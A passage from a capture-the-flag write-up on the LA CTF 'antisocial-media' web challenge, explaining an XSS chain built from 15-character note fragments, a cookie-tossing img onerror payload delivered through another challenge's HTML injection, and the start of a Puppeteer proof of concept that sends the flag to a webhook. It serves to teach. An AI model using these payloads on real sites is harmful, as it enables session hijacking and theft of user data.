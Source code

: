 Why did we need such a weird payload? Because of this check which applies strict constraints on our payload.
```js
// We aren't web scale yet! :)
if (note.length > 15 || req.session.notes.length > 15) {
    res.status(400).send({ success: false });
    return;
}
```

By adding the notes via a **fetch** request, we can complete step 1 and 2.

To do step 3, we utilise `web/purell`, which allows us to execute insert arbitrary HTML, and run the following code:
```html
<script>
  const sid = "{{id from step 2}}";
  const html = `<img/src/onerror='document.cookie="connect.sid=\${sid}; domain=.chall.lac.tf; path=/profile"; window.location="${chall}/profile";'>`;

  window.name = "{{webhook}}?";
  window.location = "https://purell.chall.lac.tf/level/start?html=" + encodeURIComponent(html);
</script>
```

This achieves step 3 and step 4, as the code inside `<img/src/onerror>` sets the more prioritized cookie AND changes the `window.location` to `/profile` to load the notes.

Now we feed the html above to the admin bot, and wait for our flag to be sent to the webhook!
![image](/images/upload_83d21f44220ae1d44d2b1f573913cfb5.png)

### PoC
Combining everything above, here is the full PoC!
```js=
import puppeteer from "puppeteer-core";
import express from "express";

const chall = "https://antisocial-media.chall.lac.tf",
  hook = "https://webhook.site/...";
let cookie = "";

const browser = await puppeteer.launch({
  headless: "new",
  executablePath: "...",
});

try {
  const page = await browser.newPage();

  await page.goto(chall);
  await page.waitForSelector("#username");
  await page.type("#username", "aaaaaaaaaaaaaaaaaa");
  await page.type("#password", "aaaaaaaaaaaaaaaaaa");
  await page.click("#login");
  await page.waitForNavigation();

  await page.evaluate(async () => {
    const notes = [
      "$`</script>$`/*",
      "*/1;fetch(/*",
      '*/"/flag"/*',
      "*/,{method:/*",
      '*/"post"})./*',
      "*/then(_=>_./*",
      "*/text())./*",
      "*/then(_=>{/*",
```